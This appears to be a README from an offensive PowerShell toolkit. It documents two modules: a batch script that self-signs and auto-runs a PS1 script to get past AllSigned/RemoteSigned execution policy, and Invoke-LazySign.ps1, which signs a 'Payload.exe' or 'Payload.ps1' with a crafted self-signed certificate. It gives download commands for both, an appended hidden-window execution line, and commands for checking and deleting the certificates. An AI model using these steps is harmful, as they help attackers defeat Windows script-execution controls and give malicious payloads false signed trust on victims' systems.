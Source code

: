 ## Module Name
   <b><i>PSscriptSigning.bat</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Execute it?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
Get-ExecutionPolicy
Get-Service -Name LanManServer
```

```powershell
# Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

# Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

## Final Notes
```
This BATCH script can sign\execute our cmdlet even if Set-ExecutionPolicy its set to 'AllSigned, RemoteSigned'.
Because executing BATCH scripts its NOT affected by 'Set-ExecutionPolicy' target settings, this allow us to
Sign the cmdlet and then execute it bypassing 'Set-ExecutionPolicy AllSigned' restrictions ...

The PSscriptSigning.bat script can only be used to sign ONE cmdlet at a time, because it uses
the same Subject Name everytime it signs the cmdlet ( Subject: My_Code_Signing_Certificate )

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Module Name
   <b><i>Invoke-LazySign.ps1</i></b>

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-LazySign|Sign a Windows binary\Cmdlet with a self-signed certificate|Administrator|[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure the required modules are present\loaded
(Get-Module -ListAvailable -Name *).ExportedCmdlets|findstr /C:"New-SelfSignedCertificate" /C:"Set-AuthenticodeSignature"
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\LocalMachine\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Expires: 6 months)
.\Invoke-LazySign.ps1 -Action 'Sign' -Subject "LazySign" -Target "$pwd\Payload.exe" -NotAfter "6"

#Sign binary (Payload.ps1) with crafted certificate (Subject: LazySign-4zrH Expires: 3 months)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.ps1" -NotAfter "3"

#Delete the 'LazySign-4zrH' certificate from windows store
.\Invoke-LazySign.ps1 -Action 'del' -Subject "LazySign-4zrH"
```

<br />

## Restrictions
```
Do 'NOT' edit the signed binary\cmdlet after its being signed, or else the cerificate
code block inside signed binary\cmdlet will brake rending the signed binary\cmdlet
as NOT-SIGNED anymore ..

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md
